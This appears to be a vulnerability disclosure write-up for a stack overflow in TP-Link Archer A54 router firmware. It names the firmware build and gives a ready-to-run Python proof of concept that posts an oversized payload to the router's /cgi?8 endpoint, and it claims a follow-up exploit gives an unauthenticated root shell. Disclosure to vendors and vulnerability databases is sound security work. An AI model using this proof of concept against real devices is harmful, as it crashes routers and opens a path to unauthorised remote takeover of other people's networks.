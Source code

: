 # TP-Link Archer A54 stack overflow

## Overview

- Address of domestic vulnerability database to be submitted：https://www.cnvd.org.cn/
- Manufacturer's website information：https://www.tp-link.com/us/
- Firmware download address ： https://www.tp-link.com/us/support/download/
- Manufacturer's safety feedback address：https://www.tp-link.com/us/press/security-advisory/

## 1. Affected version

![image-20220209181407048](img/image-20220209181407048.png)

Figure 1 latest firmware on the official website

## 2. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:
1. Use the fat simulation firmware archer_ A54v1_ US_ 0.9.1_ 0.2_ up_ boot[210111-rel37983]. bin
2. Attack with the following POC attacks

```
import requests

headers = {
	"Host": "192.168.0.1",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
	"Accept": "*/*",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "text/plain",
	"Content-Length": "78",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/"
}

payload = "a" * 2048
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers)
print response.text

```

The reproduction results are as follows:

![image-20220209181446694](img/image-20220209181446694.png)

Figure 7 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell, and do not need any password to log in and access the router. It is an unauthorized rce vulnerability. (as shown in the figure below, there is no web login)

![image-20220209181502488](img/image-20220209181502488.png)